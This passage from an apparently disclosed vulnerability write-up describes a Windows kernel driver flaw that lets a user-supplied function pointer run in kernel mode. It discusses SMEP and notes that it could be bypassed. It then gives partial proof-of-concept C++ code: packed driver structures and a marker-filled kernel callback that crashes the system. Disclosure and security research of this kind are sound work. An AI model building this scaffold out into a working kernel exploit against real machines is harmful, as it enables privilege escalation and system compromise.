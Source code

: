 The result is that pfnFunction will be called from the kernel.

# Supervisor Mode Execution Protection (SMEP)
The description above of the vulnerability and the PoC below will be stopped by SMEP. However when it was developed a non-SMEP O/S was used for simplicity.

However, as the exposed interface provides a number of ways to manipulate kernel memory, it wouldn't have been too complicated to defeat SMEP. For the purpose of the PoC, I was sending it off to the development team and didn't feel it was necessary to demonstrate the vulnerability to them. 

# PoC Code
This proof of concept code will cause a bugcheck with the following.

![RequiredLayout](BSOD.png)


```C++

#pragma pack(push)
#pragma pack(1)
// Aka Unknown2
typedef struct _UNK9
{
	DWORD offset_0;
	DWORD function_ReadFile;
	DWORD function_WriteFile;
	DWORD function_SetInformationFile;
	DWORD function_Query;
} UNK9, *PUNK9;

// Aka Unknown1
typedef struct _UNK3
{
	BYTE magic;
	BYTE ff;
	DWORD offset_2;
	PUNK9 pUnk9;
} UNK3, *PUNK3;

#pragma pack(pop)


VOID __cdecl KernelCallback(HANDLE hFile, DWORD dwUnknown)
{
	__asm
	{
		mov eax, 0xaaaaaaaa
		mov ebx, 0xbbbbbbbb
		mov ecx, 0xcccccccc
		mov edx, 0xdddddddd
		mov esi, 0xd00dd00d
		mov edi, 0xcafecafe
		mov DWORD_PTR[0xCAFED00D], 0xcafecafe
	}
}
```